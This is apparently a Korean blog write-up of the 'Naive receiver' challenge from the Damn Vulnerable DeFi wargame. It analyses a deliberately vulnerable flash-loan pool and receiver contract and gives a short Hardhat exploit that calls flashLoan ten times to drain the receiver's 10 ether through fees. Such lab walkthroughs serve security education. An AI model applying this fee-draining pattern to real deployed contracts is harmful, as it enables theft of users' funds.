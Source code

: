 ```yaml
---
title: "DamnVulnerableDefi Naive receiver 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - NaiveReceiver

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
`Unstoppable`에 이은 Damn Vulnerable Defi 워게임의 2번째 문제이다. 
(하지만, 여느 워게임이 그렇듯 문제간 연관성은 없다;P)

첫 번째 문제에 서술되어 있듯이, 이 워게임에서 제공되는 문제들은 `Solidity`로 작성된 스마트 컨트랙트 파일(들)과 `Javascript`로 작성된 익스플로잇 코드 템플릿을 제공한다. 익스플로잇 코드 템플릿은 `Hardhat`과 `Waffle` 프레임워크로 작성되어 크게 템플릿 코드가 크게 `before`, `it`, `after`로 구분된다. `before` 파트는 문제의 스마트 컨트랙트를 배포하고 초기 자본(?) 설정 등과 같은 초기화를 담당한다. `it` 파트에는 스마트 컨트랙트를 익스플로잇하기 위한 코드가 위치하며, 플레이어가 작성할 수 있도록 비워져있다. 마지막으로, `after` 파트에는 문제의 달성 조건이 작성되어있다. 

워게임 플레이어는 스마트 컨트랙트와 익스플로잇 코드의 after 파트를 확인해서, 문제의 방향을 확인해야 한다.
(물론, 워게임 [사이트](https://www.damnvulnerabledefi.xyz/)에도 글로 잘 작성되어 있다.)

본론으로 들어가서, 이 문제에서는 2개의 스마트 컨트랙트(`FlashLoanReceiver.sol`, `NaiveReceiverLenderPool.sol`)가 주어진다. `NaiveRecevierLenderPool`은 flashLoan 서비스를 제공하는 컨트랙트이고, 초기 자본 `1000 ether`를 가지고 있다. `FlashLoanReceiver`는 대출을 받는 컨트랙트이고, 초기 자본 `10 ehter`를 가지고 있다. 이 문제의 목표는 ***flashLoan 서비스를 통해 `NaiveReceiverLenderPool`이 `FlashLoanReceiver`가 가진 `10 ether`를 모두 가져가게 만드는 것이 목표다.***

## 컨트랙트 분석
사실 분석이라고 할 것까지도 없는 민망한 컨트랙트이지만, 제공된 2개의 컨트랙트의 기능을 확인해본다.

### NaiveReceiverLenderPool

~~~
    ...
    function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= borrowAmount, "Not enough ETH in pool");


        require(borrower.isContract(), "Borrower must be a deployed contract");
        // Transfer ETH and handle control to receiver
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
    ...
~~~
가장 중요한 `flashLoan` 함수만 보면, 
1. 대출자의 주소(`borrower`)와 대출금액(`borrowAmount`)을 매개변수로 전달받아, 
2. 대출 전 잔액인 `balanceBefore`가 `borrowAmount`보다 크면, 
3. `borrower`(컨트랙트)의 `receiveEther` 함수를 호출한다. 
4. `receiveEther` 함수 호출시, 고정 수수료(`FIXED_FEE`)를 매개변수로 전달하고, trasaction value로 `borrowAmount`를 전달한다. 
5. 마지막으로, 상환된 금액을 체크한다. 
   
전체 컨트랙트 코드를 보면 알 수 있자만, `FIXED_FEE`는 `1 ether`로 설정되어 있다.

### FlashLoanReceiver

~~~
    ...
    // Function called by the pool during flash loan
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
    ...
~~~
여기에서도 `receiveEther` 함수만 살펴본다. 
1. 이 함수는 수수료(`fee`)를 매개변수로 전달받아, 
2. `msg.sender`가 `NaiveReceiverLenderPool` 컨트랙트인지 확인한다. 
3. 상환 금액인 `amountToBeRepaid`을 `msg.value`와 `fee`의 합으로 계산하고,
4. `amountToBeRepaid`가 현재 잔액 이하인 경우,
5. 대출금을 사용하는 `_executeActionDuringFlashLaon` 함수를 실행하고 (이 문제에서는 아무런 동작도 하지 않음),
6. `amountToBeRepaid`만큼 `NaiveReceiverLenderPool`에 상환한다.

## Solution
이 문제는 너무 쉬워서 풀이라 할 것도 없다... `FlashLoanReceiver`가 얼마를 대출하던 항상 수수료로 `1 ether`가 지출되기 떄문에 대출금을 `0`으로 설정하고 `flashLoan` 함수를 `10`번 호출하면, `FlashLoanReceiver`의 자본 `10 ether`를 모두 소진하게 된다.

~~~
    ...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for (var i = 0;i < 10;++i) {
            await this.pool.connect(attacker).flashLoan(this.receiver.address, 0);
        }
    });
    ...
~~~

***EZ***

## References

* Damn Vulnerable DeFi-Naive receiver, https://www.damnvulnerabledefi.xyz/challenges/2.html